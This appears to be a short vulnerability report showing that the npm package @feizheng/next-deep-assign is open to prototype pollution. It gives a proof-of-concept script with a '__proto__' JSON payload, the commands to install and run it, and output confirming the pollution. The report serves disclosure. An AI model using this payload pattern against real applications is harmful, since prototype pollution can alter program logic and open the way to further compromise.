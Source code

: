 # Description

`@feizheng/next-deep-assign` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var nextDeepAssign = require("@feizheng/next-deep-assign")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
nextDeepAssign(obj, payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i @feizheng/next-deep-assign # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
